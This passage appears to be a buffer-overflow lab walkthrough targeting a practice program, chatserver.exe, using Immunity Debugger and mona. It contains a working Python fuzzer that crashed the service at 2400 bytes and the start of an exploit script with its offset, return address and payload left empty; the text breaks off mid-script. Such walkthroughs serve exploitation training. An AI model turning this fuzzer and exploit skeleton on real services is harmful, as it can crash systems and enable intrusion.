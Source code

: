 * After transferring the files, we can run Immunity Debugger as Administrator and run chatserver.exe

* In the command box in Immunity Debugger, run this command:

  ```!mona config -set workingfolder c:\mona\%p```

* We can now go ahead and create ```fuzzer.py``` in Kali, which will send the username and message to chatserver.exe:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "192.168.30.139"
#ip of windows machine with debugger

port = 9999
timeout = 5
username = "dummy"
string = "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.send(bytes(username, "latin-1"))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

* On running the fuzzer, we can see that it breaks at 2400 bytes.

* Now, we need to generate a payload to be used in ```exploit.py``` - we have to generate the pattern of size 2400 bytes + 400 bytes = 2800 bytes.

* We can now create ```exploit.py```:

```python
import socket

ip = "192.168.30.139"
#windows machine ip
port = 9999
username = "dummy"
prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
#insert 2800 bytes generated payload here
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

```